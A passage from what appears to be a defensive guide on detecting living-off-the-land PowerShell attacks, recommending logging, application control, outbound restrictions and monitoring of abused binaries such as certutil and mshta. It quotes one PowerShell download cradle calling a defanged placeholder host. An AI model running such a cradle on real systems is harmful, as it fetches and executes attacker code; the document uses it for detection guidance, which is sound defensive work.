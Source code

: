 - **Enable Full PowerShell Logging:**
    - Script Block Logging (Event 4104), Module Logging, Transcription for comprehensive audit trails[^3_4].
- **Alert on Built-in Tools Used by PowerShell:**
    - Specifically monitor for abuse of certutil, bitsadmin, regsvr32, mshta, rundll32, etc.[^3_1][^3_3][^3_5].
- **Restrict PowerShell to Admins:**
    - Use AppLocker or Windows Defender Application Control to allow PowerShell execution for authorized users or only signed scripts[^3_4].
- **Disable Legacy PowerShell Where Possible:**
    - Remove or restrict use of PowerShell v2, which lacks modern security controls.
- **Monitor Persistence Mechanisms:**
    - Investigate auto-start entries, scheduled tasks, and custom WMI subscriptions regularly for unusual PowerShell invocations.
- **NetSec Controls:**
    - Restrict outbound connectivity for workstations, and log all traffic from endpoints to unusual destinations.
- **User Training:**
    - Foster awareness regarding phishing, macro attacks, and the risks of normal tools being abused.


### Additional Scenarios to Monitor

- **PowerShell Download Cradles:**
    - E.g., `IEX (New-Object Net.WebClient).DownloadString("hxxp://badsite/payload.ps1")`.
- **Obfuscated In-memory Attack Chains:**
    - Shellcode launched from PowerShell using `VirtualAlloc`, scheduled by task or registry.
- **Fileless Ransomware Deployment:**
    - Like GoGalocker: PowerShell loads shellcode in memory, opens a port, fetches ransomware or C2 loader[^3_5].
- **Automated Threat Actor Playbooks:**
    - Attackers using frameworks (Cobalt Strike, Empire) rely on PowerShell for control, lateral movement, and exfil—often chaining multiple built-in admin tools for stealth.


### Visualization: Key Indicators \& Alert Triggers

- PowerShell invoking suspicious system binaries (LOLBAS)
- Outbound network traffic linked to PowerShell processes
- Creation/modification of persistence mechanisms by PowerShell
- PowerShell logs showing defense evasion commands

Implementing in-depth PowerShell auditing, hunting for trusted binary abuse, and tightly managing endpoint privileges is crucial for detecting and stopping LOTL-based attacks before they escalate[^3_1][^3_3][^3_4][^3_5].

**Note:** The provided infographic icon is for illustrative reference—use professionally designed diagrams in production reporting for clarity and executive communication.

<div style="text-align: center">⁂</div>

[^3_1]: https://www.rapid7.com/fundamentals/living-off-the-land-attack/

[^3_2]: https://www.kiteworks.com/risk-compliance-glossary/living-off-the-land-attacks/

[^3_3]: https://www.ninjaone.com/blog/living-off-the-land-attacks/

[^3_4]: https://www.cisecurity.org/insights/blog/living-off-the-land-the-power-behind-powershell

[^3_5]: https://docs.broadcom.com/doc/living-off-the-land-turning-your-infrastructure-against-you-en


[^3_6]: https://www.darktrace.com/blog/living-off-the-land-how-hackers-blend-into-your-environment
[^3_7]: https://seceon.com/living-off-the-land-lotl-attacks-exploiting-whats-already-there/
[^3_8]: https://docs.broadcom.com/docs/istr-living-off-the-land-and-fileless-attack-techniques-en
[^3_9]: https://techzone.bitdefender.com/en/tech-explainers/living-of-the-land-attacks.html
[^3_10]: https://www.xcitium.com/knowledge-base/lotl/